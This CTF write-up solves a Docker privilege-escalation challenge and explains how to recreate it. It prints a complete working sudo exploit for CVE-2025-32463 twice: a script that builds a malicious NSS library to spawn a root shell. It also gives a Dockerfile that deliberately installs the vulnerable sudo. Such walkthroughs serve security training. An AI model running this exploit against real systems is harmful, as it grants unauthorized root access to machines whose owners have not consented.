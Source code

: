 ﻿

# Challenge 10 GetmeROOT!

## Description

The objective of this challenge is gain root access from a non-root user within the docker container and execute a script which will provide the flag. 

# Solution
**1. Start the Docker Container.**

We will need to build and run the docker container from the provided Dockerfile using the following commands:

    docker build -t challenge10 .
    docker run -it --rm challenge10

**2. Discover the flag binary**

Within the root directory of the docker container notice that there is a binary `flag` which when executed provides the following error and cannot be read. 

    └─$ docker run -it --rm  challenge10 
    catchmeoutside@47dd04f79a06:~$ ./flag 
    Error: must be run with sudo/root privileges.
    catchmeoutside@47dd04f79a06:~$ cat flag 
    cat: flag: Permission denied
    catchmeoutside@47dd04f79a06:~$ 


**3. Check Sudo Version**

This docker container contains a vulnerable sudo version 1.9.16p2 as shown below:

    catchmeoutside@47dd04f79a06:~$ sudo --version
    Sudo version 1.9.16p2
    Sudoers policy plugin version 1.9.16p2
    Sudoers file grammar version 50
    Sudoers I/O plugin version 1.9.16p2
    Sudoers audit plugin version 1.9.16p2

This sudo package is vulnerable to CVE-2025-32463 and as such a PoC exploit can be found easily online such as here:
https://github.com/kh4sh3i/CVE-2025-32463/blob/main/exploit.sh 

    exploit.sh 
    #!/bin/bash
    # sudo-chwoot.sh
    # CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
    #                  @ Stratascale Cyber Research Unit (CRU)
    STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
    cd ${STAGE?} || exit 1
    
    cat > woot1337.c<<EOF
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void woot(void) {
      setreuid(0,0);
      setregid(0,0);
      chdir("/");
      execl("/bin/bash", "/bin/bash", NULL);
    }
    EOF
    
    mkdir -p woot/etc libnss_
    echo "passwd: /woot1337" > woot/etc/nsswitch.conf
    cp /etc/group woot/etc
    gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c
    
    echo "woot!"
    sudo -R woot woot
    rm -rf ${STAGE?}

**4. Copy the PoC exploit within the docker container**

Using `nano` we can copy the PoC exploit within the docker container as shown below. 

    catchmeoutside@47dd04f79a06:~$ nano exploit.sh  
    catchmeoutside@47dd04f79a06:~$ cat exploit.sh 
    #!/bin/bash
    # sudo-chwoot.sh
    # CVE-2025-32463 – Sudo EoP Exploit PoC by Rich Mirch
    #                  @ Stratascale Cyber Research Unit (CRU)
    STAGE=$(mktemp -d /tmp/sudowoot.stage.XXXXXX)
    cd ${STAGE?} || exit 1
    
    cat > woot1337.c<<EOF
    #include <stdlib.h>
    #include <unistd.h>
    
    __attribute__((constructor)) void woot(void) {
      setreuid(0,0);
      setregid(0,0);
      chdir("/");
      execl("/bin/bash", "/bin/bash", NULL);
    }
    EOF
    
    mkdir -p woot/etc libnss_
    echo "passwd: /woot1337" > woot/etc/nsswitch.conf
    cp /etc/group woot/etc
    gcc -shared -fPIC -Wl,-init,woot -o libnss_/woot1337.so.2 woot1337.c
    
    echo "woot!"
    sudo -R woot woot
    rm -rf ${STAGE?}
    catchmeoutside@47dd04f79a06:~$ 

**5. Execute the PoC exploit**

To execute this PoC we first need to modify the files permission after which we can execute. Both steps are shown below:

    catchmeoutside@47dd04f79a06:~$ chmod +x exploit.sh 
    catchmeoutside@47dd04f79a06:~$ bash exploit.sh 
    woot!
    root@47dd04f79a06:/# whoami
    root
    root@47dd04f79a06:/# id 
    uid=0(root) gid=0(root) groups=0(root),1001(catchmeoutside)
    root@47dd04f79a06:/#

 As we can see from the `whoami` and `id` commands above, we have gained root access. 


**6. Execute Flag executable**

We can proceed to execute the `flag` executable now that we have root privileges. As shown below

    root@47dd04f79a06:/# ./home/catchmeoutside/flag 
    Implant executed. Flag dropped.

**7. Read the file saved to the root directory** 

We can now read the flag implanted within the home directory. To get a hint for the path you can cat the `flag` executable which will show the path the implanted file. 
    
    root@47dd04f79a06:/# cat /root/flag_revealed.txt 
    Flag{damn_you_got_me_outside}
    root@47dd04f79a06:/# 
From above we can see that the flag is `Flag{damn_you_got_me_outside}`
The challenge is solved!


# Recreating this challenge 
Recreating this challenge is simple however requires a few steps.

**1. Create the Dockerfile**

To create the dockerfile copy the following code in to a file named  `Dockerfile`:

    # ----- Dockerfile -----
    
    FROM ubuntu:24.04
    ENV DEBIAN_FRONTEND=noninteractive
    
    # 1) Build tool and deps
    RUN apt-get update && \
    apt-get install -y build-essential wget nano libpam0g-dev libselinux1-dev zlib1g-dev \
    pkg-config libssl-dev git ca-certificates && \
    rm -rf /var/lib/apt/lists/*
    
    # 2) Build vulnerable sudo(1.9.16p2)
    WORKDIR /opt
    RUN wget https://www.sudo.ws/dist/sudo-1.9.16p2.tar.gz && \
    tar xzf sudo-1.9.16p2.tar.gz && \
    cd sudo-1.9.16p2 && \
    ./configure --disable-gcrypt --prefix=/usr && make && make install
    
    # 3) Make a pwn user
    RUN useradd -m -s /bin/bash catchmeoutside
    
    # 4) Copy PoC script
    #COPY exploit.sh /home/catchmeoutside/test.sh
    #RUN chown catchmeoutside:catchmeoutside /home/catchmeoutside/test.sh
    
    COPY flag /home/catchmeoutside/flag
    RUN chown root:root /home/catchmeoutside/flag
    RUN chmod 511 /home/catchmeoutside/flag
    
    # 5) Swith to the pwn user
    USER catchmeoutside
    WORKDIR /home/catchmeoutside
    
    # 6) Run shell
    CMD ["/bin/bash"]


**2. Create the flag executable**

Create a file called `flag.c` with the following contents:

    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    
    int main() {
        if (geteuid() != 0) {
            fprintf(stderr, "Error: must be run with sudo/root privileges.\n");
            return 1;
        }
    
        FILE *fp = fopen("/root/flag_revealed.txt", "w");
        if (fp == NULL) {
            perror("Failed to write flag");
            return 1;
        }
    
        fprintf(fp, "Flag{damn_you_got_me_outside}\n");
        fclose(fp);
    
        printf("Implant executed. Flag dropped.\n");
        return 0;
    }

Feel free to change the flag `Flag{damn_you_got_me_outside}` and the path of the `/root/flag_revealed.txt` file as like. 

**3. Compile flag.c**

The last step is to compile the flag.c file to create the executable and set it's executable permissions as shown below.  

    └─$ gcc flag.c -o flag     
    
    └─$ chmod +x flag              



Perform the steps from the solution to validate that this challenge has been successfully created. 
This completes the recreation of this CTF Challenge. 













